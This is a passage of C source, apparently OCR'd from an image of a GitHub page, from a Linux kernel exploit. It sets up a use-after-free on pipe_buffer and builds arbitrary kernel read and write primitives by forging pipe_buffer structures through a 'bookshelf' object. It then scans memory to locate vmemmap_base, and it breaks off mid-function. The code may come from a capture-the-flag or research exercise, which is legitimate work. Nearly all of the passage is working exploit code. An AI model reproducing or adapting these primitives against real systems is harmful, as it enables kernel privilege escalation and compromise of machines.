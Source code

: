 ```c
    puts("[*] Checking for UAF pipe...");
    if (orig_idx < 0 || victim_idx < 0) {
        err_exit("FAILED to construct UAF on pipe!");
    }

    puts("[+] Successfully made UAF on pipe_buffer!");
    printf("[+] Original: %d, victim: %d\n", orig_idx, victim_idx);
}

void arbitrary_read_by_pipe(size_t page_addr, void *buf)
{
    struct pipe_buffer *fake_buf;
    size_t data[0x1000];

    read(bookshelf[book_idx], data, sizeof(*fake_buf));
    fake_buf = (struct pipe_buffer*) data;

    fake_buf->page = (struct page*) page_addr;
    fake_buf->len = 0x1ff8;
    fake_buf->offset = 0;
    fake_buf->ops = pipe_ops;

    write(bookshelf[book_idx], data, sizeof(*fake_buf));

    read(pipe_fd[victim_idx][0], buf, 0xfff);
}

void arbitrary_write_by_pipe(size_t page_addr, void *buf, size_t len)
{
    struct pipe_buffer *fake_buf;
    size_t data[0x1000];

    read(bookshelf[book_idx], data, sizeof(*fake_buf));
    fake_buf = (struct pipe_buffer*) data;

    fake_buf->page = (struct page*) page_addr;
    fake_buf->len = 0;
    fake_buf->offset = 0;
    fake_buf->ops = pipe_ops;

    write(bookshelf[book_idx], data, sizeof(*fake_buf));

    write(pipe_fd[victim_idx][1], buf, len > 0xffe ? 0xffe : len);
}

void seeking_vmemmap_base(void)
{
    size_t seek_page, buf[0x1000];

    printf("[*] Start reading back from %lx...\n", page_leak);
    for (seek_page = page_leak; ; seek_page -= 0x40) {
        arbitrary_read_by_pipe(seek_page, buf);
        if (buf[0] == (kernel_base + 0x60)) {
            vmemmap_base = seek_page - (0x9d000 / 0x1000) * 0x40;
            break;
        }
    }

    if (vmemmap_base == 0xffffea0000000000) {
        err_exit("ARE YOU KIDDING ME?");
    }

    printf("\033[32m\033[1m[+] Get vmemmap_base: \033[0m%lx\n", vmemmap_base);
```